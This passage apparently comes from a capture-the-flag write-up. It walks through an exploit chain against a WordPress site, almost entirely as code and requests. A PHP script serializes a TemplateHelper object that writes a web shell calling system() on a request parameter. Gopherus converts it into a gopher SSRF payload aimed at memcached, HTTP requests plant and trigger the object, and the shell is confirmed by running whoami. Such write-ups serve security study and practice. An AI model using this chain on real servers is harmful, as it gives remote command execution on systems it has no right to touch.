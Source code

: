 ```php
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
}

$payload = new TemplateHelper("test.php", "<?php system(\$_REQUEST['cmd']); ?>");
echo serialize($payload)
```

Executing the payload:
```
php payload.php
```
```
O:14:"TemplateHelper":2:{s:4:"file";s:8:"test.php";s:4:"data";s:34:"<?php system($_REQUEST['cmd']); ?>";}
```

Using the payload with **Gopherus**:
```
gopherus.py --exploit phpmemcache

example: O:5:"Hello":0:{}   : O:14:"TemplateHelper":2:{s:4:"file";s:8:"test.php";s:4:"data";s:34:"<?php system($_REQUEST['cmd']); ?>";}

Your gopher link is ready to do SSRF :
gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%20105%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:8:%22test.php%22%3Bs:4:%22data%22%3Bs:34:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27cmd%27%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a
```

Replacing _"SpyD3r"_ with the MD5 hash and sending the payload:
```
GET /awesome-rss/?custom_feed_url=gopher://0x7F000001:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20105%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:8:%22test.php%22%3Bs:4:%22data%22%3Bs:34:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27cmd%27%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a HTTP/1.1
```

Checking if the correct object is created:
```
GET /wp-content/themes/twentytwenty/debug.php HTTP/1.1
```
```
| xct_4e5612ba07(...) | O:14:"TemplateHelper":2:{s:4:"file(...) |
```

Browsing to _awesome-rss_ to trigger the function that parses the PHP object:
```
GET /awesome-rss/ HTTP/1.1
```

Testing command execution on the web shell:
```
GET /wp-content/themes/twentytwenty/logs/test.php?cmd=whoami HTTP/1.1
```
```
www-data
```
